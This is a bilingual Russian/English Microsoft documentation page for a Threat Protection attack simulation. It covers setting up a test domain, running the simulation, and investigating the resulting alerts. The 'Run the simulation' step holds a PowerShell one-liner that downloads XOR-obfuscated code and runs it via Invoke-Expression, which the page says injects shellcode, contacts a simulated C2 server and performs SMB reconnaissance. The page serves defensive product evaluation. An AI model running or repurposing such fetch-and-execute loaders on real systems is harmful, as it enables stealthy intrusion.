# <a name="run-your-microsoft-threat-protection-attack-simulations"></a><span data-ttu-id="1c806-104">Запуск эмуляции атак Майкрософт для защиты от угроз</span><span class="sxs-lookup"><span data-stu-id="1c806-104">Run your Microsoft Threat Protection attack simulations</span></span>  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


<span data-ttu-id="1c806-105">**Область применения:**</span><span class="sxs-lookup"><span data-stu-id="1c806-105">**Applies to:**</span></span>
- <span data-ttu-id="1c806-106">Защита от угроз (Майкрософт)</span><span class="sxs-lookup"><span data-stu-id="1c806-106">Microsoft Threat Protection</span></span>
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/><span data-ttu-id="1c806-108">Планирование </a></span><span class="sxs-lookup"><span data-stu-id="1c806-108">Plan </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/><span data-ttu-id="1c806-110">Подготовка </a></span><span class="sxs-lookup"><span data-stu-id="1c806-110">Prepare </a></span></span><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/><span data-ttu-id="1c806-112">Имитация атаки </a></span><span class="sxs-lookup"><span data-stu-id="1c806-112">Simulate attack </a></span></span><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/><span data-ttu-id="1c806-114">Закрытие и подведение итогов </a></span><span class="sxs-lookup"><span data-stu-id="1c806-114">Close and summarize </a></span></span><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

<span data-ttu-id="1c806-115">В настоящее время вы находитесь на этапе эмуляции атаки.</span><span class="sxs-lookup"><span data-stu-id="1c806-115">You're currently in the attack simulation phase.</span></span>

<span data-ttu-id="1c806-116">После подготовки пилотной среды необходимо протестировать средства управления инцидентами защиты от угроз Майкрософт, а также автоматическое исследование и устранение проблем.</span><span class="sxs-lookup"><span data-stu-id="1c806-116">After preparing your pilot environment, it’s time to test the Microsoft Threat Protection incident management and automated investigation and remediation capabilities.</span></span> <span data-ttu-id="1c806-117">Мы поможем вам имитировать сложную атаку, которая использует расширенные методы для скрытия определения.</span><span class="sxs-lookup"><span data-stu-id="1c806-117">We will help you to simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="1c806-118">Атака перечисляет открытые сеансы SMB на контроллерах домена и получает последние IP-адреса устройств пользователей.</span><span class="sxs-lookup"><span data-stu-id="1c806-118">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users’ devices.</span></span> <span data-ttu-id="1c806-119">В эту категорию атак обычно нет файлов, отброшенных на устройстве жертвы — они происходят только в памяти.</span><span class="sxs-lookup"><span data-stu-id="1c806-119">This category of attacks usually doesn’t include files dropped on the victim’s device—they occur solely in memory.</span></span> <span data-ttu-id="1c806-120">Они «выходят с земли», используя существующие системы и средства администрирования и вводят свой код в системные процессы для скрытия их выполнения, позволяя им обнаруживать избежать и хранить их на устройстве.</span><span class="sxs-lookup"><span data-stu-id="1c806-120">They “live off the land” by using existing system and administrative tools and inject their code into system processes to hide their execution, allowing them to evade detection and persist on the device.</span></span>

<span data-ttu-id="1c806-121">В этой модели наш пример сценария начинается с скрипта PowerShell.</span><span class="sxs-lookup"><span data-stu-id="1c806-121">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="1c806-122">Пользователь может принудиться выполнить сценарий.</span><span class="sxs-lookup"><span data-stu-id="1c806-122">A user might be tricked into running a script.</span></span> <span data-ttu-id="1c806-123">Или сценарий может выполняться с удаленного подключения к другому компьютеру из ранее инфицированного устройства — злоумышленник пытается переместиться позже в сети.</span><span class="sxs-lookup"><span data-stu-id="1c806-123">Or the script might run from a remote connection to another computer from a previously infected device—the attacker attempting to move laterally in the network.</span></span> <span data-ttu-id="1c806-124">Обнаружение этих сценариев может быть затруднительным, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.</span><span class="sxs-lookup"><span data-stu-id="1c806-124">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="1c806-126">Во время имитации атака внедряет шеллкоде в инноцент процесс.</span><span class="sxs-lookup"><span data-stu-id="1c806-126">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="1c806-127">В этом случае мы будем использовать notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="1c806-127">In this scenario, we’ll use notepad.exe.</span></span> <span data-ttu-id="1c806-128">Мы выбрали этот процесс для имитации, но злоумышленники, скорее всего, будут работать с длительным системным процессом, например svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="1c806-128">We chose this process for the simulation, but attackers will more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="1c806-129">После этого шеллкоде будет обращаться к серверу командного и-управления злоумышленника, чтобы получить инструкции по выполнению этой процедуры.</span><span class="sxs-lookup"><span data-stu-id="1c806-129">The shellcode then goes on to contact the attacker’s command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="1c806-130">Кроме того, сценарий предпринимает попытку выполнения запросов реконнаиссанце к контроллеру домена (DC).</span><span class="sxs-lookup"><span data-stu-id="1c806-130">In addition, the script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="1c806-131">Это позволяет злоумышленнику получить сведения о последних учетных данных пользователя.</span><span class="sxs-lookup"><span data-stu-id="1c806-131">This allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="1c806-132">После получения этих сведений злоумышленники могут позднее переместиться в сети, чтобы получить доступ к определенной конфиденциальной учетной записи.</span><span class="sxs-lookup"><span data-stu-id="1c806-132">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

>[!IMPORTANT]
><span data-ttu-id="1c806-133">Для достижения оптимальных результатов следуйте инструкциям по моделированию атак, как можно ближе.</span><span class="sxs-lookup"><span data-stu-id="1c806-133">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>


## <a name="simulation-environment-requirements"></a><span data-ttu-id="1c806-134">Требования к среде моделирования</span><span class="sxs-lookup"><span data-stu-id="1c806-134">Simulation environment requirements</span></span>

<span data-ttu-id="1c806-135">Так как вы уже настроили пилотную среду на этапе подготовки, убедитесь, что у вас есть два устройства для этого сценария: тестовое устройство и контроллер домена.</span><span class="sxs-lookup"><span data-stu-id="1c806-135">Since you have already configured your pilot environment during the preparation phase, ensure that you have two devices for this scenario: a test device and a domain controller.</span></span>

1.  <span data-ttu-id="1c806-136">Убедитесь, что ваш клиент [включил защиту от угроз](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)Майкрософт для угроз Майкрософт.</span><span class="sxs-lookup"><span data-stu-id="1c806-136">Verify your tenant has [enabled Microsoft Threat Microsoft Threat Protection](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).</span></span>

2.  <span data-ttu-id="1c806-137">Проверьте конфигурацию контроллера домена:</span><span class="sxs-lookup"><span data-stu-id="1c806-137">Verify your test domain controller configuration:</span></span>

    - <span data-ttu-id="1c806-138">Устройство работает под управлением Windows Server 2008 R2 или более поздней версии.</span><span class="sxs-lookup"><span data-stu-id="1c806-138">Device runs with Windows Server 2008 R2 or a later version.</span></span>
    - <span data-ttu-id="1c806-139">Проверьте контроллер домена до службы [Advanced Threat Protection в Azure](https://docs.microsoft.com/azure/security-center/security-center-wdatp) и включите [Удаленное управление](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span><span class="sxs-lookup"><span data-stu-id="1c806-139">The test domain controller to [Azure Advanced Threat Protection](https://docs.microsoft.com/azure/security-center/security-center-wdatp) and enable [remote management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>    
    - <span data-ttu-id="1c806-140">Убедитесь, что [Интеграция Azure ATP и Microsoft Cloud App Security](https://docs.microsoft.com/cloud-app-security/aatp-integration) включена.</span><span class="sxs-lookup"><span data-stu-id="1c806-140">Verify that [Azure ATP and Microsoft Cloud App Security integration](https://docs.microsoft.com/cloud-app-security/aatp-integration) have been enabled.</span></span>
    - <span data-ttu-id="1c806-141">В вашем домене создается тестовый пользователь — для него не требуются разрешения администратора.</span><span class="sxs-lookup"><span data-stu-id="1c806-141">A test user is created on your domain – no admin permissions needed.</span></span>

3.  <span data-ttu-id="1c806-142">Проверьте конфигурацию тестового устройства.</span><span class="sxs-lookup"><span data-stu-id="1c806-142">Verify test device configuration:</span></span>
 
    1.  <span data-ttu-id="1c806-143">Устройство работает под управлением Windows 10 версии 1903 или более поздней версии.</span><span class="sxs-lookup"><span data-stu-id="1c806-143">Device runs with Windows 10 version 1903 or a later version.</span></span>
    
    1.  <span data-ttu-id="1c806-144">Тестовое устройство присоединяется к тестовому домену.</span><span class="sxs-lookup"><span data-stu-id="1c806-144">Test device is joined to the test domain.</span></span>
    
    1.  <span data-ttu-id="1c806-145">[Включите антивирусную программу "Защитник Windows"](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="1c806-145">[Turn on Windows Defender Antivirus](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="1c806-146">Если у вас возникают проблемы с включением антивирусной программы "Защитник Windows", обратитесь к [разделу Устранение неполадок](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span><span class="sxs-lookup"><span data-stu-id="1c806-146">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    
    1.  <span data-ttu-id="1c806-147">Убедитесь, что тестовое устройство подключено [к Advanced Threat Protection в защитнике Майкрософт (мдатп)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="1c806-147">Verify that the test device is [onboarded to Microsoft Defender Advanced Threat Protection (MDATP)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="1c806-148">Если вы используете существующий клиент и реализуете группы устройств, Создайте выделенную группу устройств для тестового устройства и надавите ее на самый верхний уровень в средстве настройки.</span><span class="sxs-lookup"><span data-stu-id="1c806-148">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>


## <a name="run-the-simulation"></a><span data-ttu-id="1c806-149">Запуск имитации</span><span class="sxs-lookup"><span data-stu-id="1c806-149">Run the simulation</span></span>

<span data-ttu-id="1c806-150">Чтобы запустить эмуляцию сценария атаки:</span><span class="sxs-lookup"><span data-stu-id="1c806-150">To run the attack scenario simulation:</span></span>

1.  <span data-ttu-id="1c806-151">Выполните вход на тестовое устройство с помощью тестовой учетной записи пользователя.</span><span class="sxs-lookup"><span data-stu-id="1c806-151">Log in to the test device with the test user account.</span></span>

2.  <span data-ttu-id="1c806-152">Откройте окно Windows PowerShell на тестовом устройстве.</span><span class="sxs-lookup"><span data-stu-id="1c806-152">Open a Windows PowerShell window on the test device.</span></span>

3.  <span data-ttu-id="1c806-153">Скопируйте следующий сценарий моделирования:</span><span class="sxs-lookup"><span data-stu-id="1c806-153">Copy the following simulation script:</span></span>

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > <span data-ttu-id="1c806-154">Если открыть этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов и появления лишних разрывов строк.</span><span class="sxs-lookup"><span data-stu-id="1c806-154">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="1c806-155">Скачайте этот документ и откройте его в Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="1c806-155">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="1c806-156">В командной строки вставьте и запустите скопированный сценарий.</span><span class="sxs-lookup"><span data-stu-id="1c806-156">At the prompt, paste and run the copied script.</span></span>

>[!NOTE]
><span data-ttu-id="1c806-157">Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду введите текст буфера обмена в клиенте RDP, так как сочетание клавиш **CTRL-V** или щелчок правой кнопкой мыши и вставки может не работать.</span><span class="sxs-lookup"><span data-stu-id="1c806-157">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span>  <span data-ttu-id="1c806-158">Последние версии PowerShell также не будут принимать этот метод, возможно, потребуется скопировать в "Блокнот" в памяти, скопировать его на виртуальную машину, а затем вставить в PowerShell.</span><span class="sxs-lookup"><span data-stu-id="1c806-158">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="1c806-159">В течение нескольких секунд после этого <i>notepad.exe</i> откроется.</span><span class="sxs-lookup"><span data-stu-id="1c806-159">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="1c806-160">Код имитации атаки будет добавлен в notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="1c806-160">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="1c806-161">Чтобы использовать весь сценарий, оставьте автоматически созданный экземпляр Notepad.</span><span class="sxs-lookup"><span data-stu-id="1c806-161">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="1c806-162">Код имитации атаки будет пытаться установить соединение с внешним IP-адресом (имитацией сервера C2), а затем попытаться реконнаиссанце с контроллером домена через SMB.</span><span class="sxs-lookup"><span data-stu-id="1c806-162">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="1c806-163">При завершении этого сценария отображается сообщение в консоли PowerShell.</span><span class="sxs-lookup"><span data-stu-id="1c806-163">You will see a message displayed on the PowerShell console when this script completes.</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

<span data-ttu-id="1c806-164">Чтобы просмотреть функцию автоматического инцидента и реагирования в действии, оставьте notepad.exeный процесс открытым.</span><span class="sxs-lookup"><span data-stu-id="1c806-164">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="1c806-165">Вы увидите автоматические инциденты и ответ, чтобы остановить процесс блокнота.</span><span class="sxs-lookup"><span data-stu-id="1c806-165">You will see Automated Incident and Response stop the Notepad process.</span></span>


## <a name="investigate-an-incident"></a><span data-ttu-id="1c806-166">Исследование инцидента</span><span class="sxs-lookup"><span data-stu-id="1c806-166">Investigate an incident</span></span>

>[!NOTE]
><span data-ttu-id="1c806-167">Прежде чем мы поможем вам пройти эту эмуляцию, просмотрите следующее видео, чтобы узнать, как управление инцидентами помогает отсоединить связанные оповещения в рамках процесса расследования, где вы можете найти его на портале и как он может помочь в операциях по обеспечению безопасности:</span><span class="sxs-lookup"><span data-stu-id="1c806-167">Before we walk you through this simulation, watch the following video to see how incident management helps you piece the related alerts together as part of the investigation process, where you can find it in the portal, and how it can help you in your security operations:</span></span>

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

<span data-ttu-id="1c806-168">Переключитесь на точку аналитики SOC аналитика SOC, теперь можно приступить к анализу атак на портале центра обеспечения безопасности Microsoft 365.</span><span class="sxs-lookup"><span data-stu-id="1c806-168">Switching to the SOC analyst point of view, you can now start to investigate the attack in the Microsoft 365 Security Center portal.</span></span> 

1.  <span data-ttu-id="1c806-169">Откройте очередь инцидентов [центра безопасности Microsoft 365](https://security.microsoft.com/incidents) с любого устройства.</span><span class="sxs-lookup"><span data-stu-id="1c806-169">Open the [Microsoft 365 Security Center portal](https://security.microsoft.com/incidents) incident queue from any device.</span></span>

2.  <span data-ttu-id="1c806-170">Перейдите к **инцидентам** из меню.</span><span class="sxs-lookup"><span data-stu-id="1c806-170">Navigate to **Incidents** from the menu.</span></span> 

    

3.  <span data-ttu-id="1c806-172">Новый инцидент для имитации атаки будет отображаться в очереди инцидентов.</span><span class="sxs-lookup"><span data-stu-id="1c806-172">The new incident for the simulated attack will appear in the incident queue.</span></span>
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a><span data-ttu-id="1c806-174">Исследование атак как одного инцидента</span><span class="sxs-lookup"><span data-stu-id="1c806-174">Investigate the attack as a single incident</span></span>

<span data-ttu-id="1c806-175">Защита от угроз Майкрософт сопоставляет все связанные оповещения и расследования из разных продуктов в одну сущность инцидента.</span><span class="sxs-lookup"><span data-stu-id="1c806-175">Microsoft Threat Protection correlates analytics and aggregates all related alerts and investigations from different products into one incident entity.</span></span> <span data-ttu-id="1c806-176">Таким образом, защита от угроз Майкрософт показывает более широкое описание атак, что позволяет аналитике SOC уяснить и реагировать на сложные угрозы.</span><span class="sxs-lookup"><span data-stu-id="1c806-176">By doing so, Microsoft Threat Protection shows a broader attack story, allowing the SOC analyst to understand and respond to complex threats.</span></span>

<span data-ttu-id="1c806-177">Оповещения, созданные во время этой имитации, связаны с одной и той же угрозой и в результате автоматически объединяются как один инцидент.</span><span class="sxs-lookup"><span data-stu-id="1c806-177">The alerts generated during this simulation are associated with the same threat, and as a result, are automatically aggregated as a single incident.</span></span>

<span data-ttu-id="1c806-178">Чтобы просмотреть инцидент, выполните следующие действия:</span><span class="sxs-lookup"><span data-stu-id="1c806-178">To view the incident:</span></span>

1.  <span data-ttu-id="1c806-179">Перейдите в очередь **инцидентов** .</span><span class="sxs-lookup"><span data-stu-id="1c806-179">Navigate to the **Incidents** queue.</span></span>
 
    

2.  <span data-ttu-id="1c806-181">Выберите новый элемент, щелкнув окружность слева от имени инцидента.</span><span class="sxs-lookup"><span data-stu-id="1c806-181">Select the newest item by clicking on the circle located left of the incident name.</span></span> <span data-ttu-id="1c806-182">На боковой панели отображаются дополнительные сведения об инциденте, в том числе все связанные оповещения.</span><span class="sxs-lookup"><span data-stu-id="1c806-182">A side panel displays additional information about the incident, including all the related alerts.</span></span> <span data-ttu-id="1c806-183">Каждый инцидент имеет уникальное имя, которое описывает атрибуты оповещений, которые он содержит.</span><span class="sxs-lookup"><span data-stu-id="1c806-183">Each incident has a unique name that describes it based on the attributes of the alerts it includes.</span></span>

    

    <span data-ttu-id="1c806-185">Фильтрация оповещений, показанных на панели мониторинга, может осуществляться на основе ресурсов служб: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection и Office ATP.</span><span class="sxs-lookup"><span data-stu-id="1c806-185">The alerts that shows in the dashboard can be filtered based on service resources: Azure ATP, Microsoft Cloud App Security, Microsoft Defender ATP, Microsoft Threat Protection, and Office ATP.</span></span>  

3.  <span data-ttu-id="1c806-186">Чтобы получить дополнительные сведения об инциденте, выберите **страницу открыть инцидент** .</span><span class="sxs-lookup"><span data-stu-id="1c806-186">Select **Open incident page** to get more information about the incident.</span></span>

    <span data-ttu-id="1c806-187">На странице **инцидент** можно просмотреть все оповещения и сведения, связанные с инцидентом.</span><span class="sxs-lookup"><span data-stu-id="1c806-187">In the **Incident** page, you can see all the alerts and information related to the incident.</span></span> <span data-ttu-id="1c806-188">Сюда входят сущности и активы, участвующие в оповещении, источник обнаружения оповещений (Azure ATP, ЕДР) и причина, по которой они были связаны друг с другом.</span><span class="sxs-lookup"><span data-stu-id="1c806-188">This includes the entities and assets that are involved in the alert, the detection source of the alerts (Azure ATP, EDR), and the reason they were linked together.</span></span> <span data-ttu-id="1c806-189">Просмотр списка оповещений об инциденте показывает ход атаки.</span><span class="sxs-lookup"><span data-stu-id="1c806-189">Reviewing the incident alert list shows the progression of the attack.</span></span> <span data-ttu-id="1c806-190">В этом представлении можно просматривать и изучать отдельные оповещения.</span><span class="sxs-lookup"><span data-stu-id="1c806-190">From this view, you can see and investigate the individual alerts.</span></span>

    <span data-ttu-id="1c806-191">Вы также можете выбрать пункт **Управление инцидентом** в меню справа, чтобы пометить инцидент, назначить его себе и добавить комментарии.</span><span class="sxs-lookup"><span data-stu-id="1c806-191">You can also click **Manage incident** from the right-hand menu, to tag the incident, assign it to yourself, and add comments.</span></span>

    

    


### <a name="review-generated-alerts"></a><span data-ttu-id="1c806-194">Обзор созданных оповещений</span><span class="sxs-lookup"><span data-stu-id="1c806-194">Review generated alerts</span></span> 

<span data-ttu-id="1c806-195">Давайте взглянем на некоторые оповещения, созданные при имитации атаки.</span><span class="sxs-lookup"><span data-stu-id="1c806-195">Let’s look at some of the alerts generated during the simulated attack.</span></span>

>[!NOTE]
><span data-ttu-id="1c806-196">Мы рассмотрим только некоторые из оповещений, создаваемых во время имитации атаки.</span><span class="sxs-lookup"><span data-stu-id="1c806-196">We’ll walk through only a few of the alerts generated during the simulated attack.</span></span> <span data-ttu-id="1c806-197">В зависимости от версии Windows и продуктов Майкрософт для защиты от угроз, запущенных на тестовом устройстве, вы можете увидеть больше оповещений, которые отображаются в незначительном порядке.</span><span class="sxs-lookup"><span data-stu-id="1c806-197">Depending on the version of Windows and the Microsoft Threat Protection products running on your test device, you might see more alerts that appear in a slightly different order.</span></span>

 


<span data-ttu-id="1c806-199">**Предупреждение: наблюдалось внедрение подозрительных процессов (Источник: пакет ATP для защитника Microsoft ЕДР)**</span><span class="sxs-lookup"><span data-stu-id="1c806-199">**Alert: Suspicious process injection observed (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="1c806-200">Опытные злоумышленники используют сложные и стеалси методы для сохранения памяти и скрытия средств обнаружения.</span><span class="sxs-lookup"><span data-stu-id="1c806-200">Advanced attackers use sophisticated and stealthy methods to persist in memory and hide from detection tools.</span></span> <span data-ttu-id="1c806-201">Одной из распространенных способов является работа в надежном системном процессе, а не вредоносный исполняемый файл, что затрудняет для средств обнаружения и обеспечения безопасности вредоносный код.</span><span class="sxs-lookup"><span data-stu-id="1c806-201">One common technique is to operate from within a trusted system process rather than a malicious executable, making it hard for detection tools and security operations to spot the malicious code.</span></span>

<span data-ttu-id="1c806-202">Чтобы разрешить аналитикам SOC перехватывать эти улучшенные атаки, глубокие датчики памяти в защитнике Microsoft Defender обеспечивают облачную службу с непредусмотренным отображением различных способов встраивания кода между процессами.</span><span class="sxs-lookup"><span data-stu-id="1c806-202">To allow the SOC analysts to catch these advanced attacks, deep memory sensors in Microsoft Defender ATP provide our cloud service with unprecedented visibility into a variety of cross-process code injection techniques.</span></span> <span data-ttu-id="1c806-203">На следующем рисунке показано, как служба защитника Майкрософт обнаружила и предупреждать о попытке ввести код для <i>notepad.exe</i>.</span><span class="sxs-lookup"><span data-stu-id="1c806-203">The following figure shows how Microsoft Defender ATP detected and alerted on the attempt to inject code to <i>notepad.exe</i>.</span></span>

 


<span data-ttu-id="1c806-205">**Предупреждение: неожиданное поведение, выполняемое процессом без аргументов командной строки (Source: ЕДР для защитника Майкрософт)**</span><span class="sxs-lookup"><span data-stu-id="1c806-205">**Alert: Unexpected behavior observed by a process run with no command line arguments (Source: Microsoft Defender ATP EDR)**</span></span>

<span data-ttu-id="1c806-206">Обнаружение ATP для защитника Майкрософт часто нацелено на наиболее распространенный атрибут приема атаки.</span><span class="sxs-lookup"><span data-stu-id="1c806-206">Microsoft Defender ATP detections often target the most common attribute of an attack technique.</span></span> <span data-ttu-id="1c806-207">Это гарантирует устойчивость и порождает отрезку, с помощью которой злоумышленники могут переключаться на более новые тактики.</span><span class="sxs-lookup"><span data-stu-id="1c806-207">This ensures durability and raises the bar for attackers to switch to newer tactics.</span></span>

<span data-ttu-id="1c806-208">Мы используем крупномасштабные учебные алгоритмы для установки нормального поведения распространенных процессов в Организации и во всем мире и следите за тем, когда эти процессы представляют невероятные последствия.</span><span class="sxs-lookup"><span data-stu-id="1c806-208">We employ large-scale learning algorithms to establish the normal behavior of common processes within an organization and worldwide and watch for when these processes exhibit anomalous behaviors.</span></span> <span data-ttu-id="1c806-209">Эти нетипичные действия часто указывают на то, что дополнительный код появился и работает в надежном для других процессах.</span><span class="sxs-lookup"><span data-stu-id="1c806-209">These anomalous behaviors often indicate that extraneous code was introduced and is running in an otherwise trusted process.</span></span>

<span data-ttu-id="1c806-210">В этом сценарии в <i>notepad.exe</i> процесса используется ненормальное поведение, включающее связь с внешним расположением.</span><span class="sxs-lookup"><span data-stu-id="1c806-210">For this scenario, the process <i>notepad.exe</i> is exhibiting abnormal behavior, involving communication with an external location.</span></span> <span data-ttu-id="1c806-211">Этот результат не зависит от конкретного метода, используемого для введения и выполнения вредоносного кода.</span><span class="sxs-lookup"><span data-stu-id="1c806-211">This outcome is independent of the specific method used to introduce and execute the malicious code.</span></span>

>[!NOTE]
><span data-ttu-id="1c806-212">Так как это оповещение основано на моделях машинного обучения, требующих дополнительной внутренней обработки, может потребоваться некоторое время, прежде чем вы увидите это предупреждение на портале.</span><span class="sxs-lookup"><span data-stu-id="1c806-212">Because this alert is based on machine-learning models that require additional backend processing, it might take some time before you see this alert in the portal.</span></span>

<span data-ttu-id="1c806-213">Обратите внимание на то, что сведения о предупреждении включают внешний IP-адрес — индикатор, который можно использовать в качестве сводной таблицы для разворачивания расследования.</span><span class="sxs-lookup"><span data-stu-id="1c806-213">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

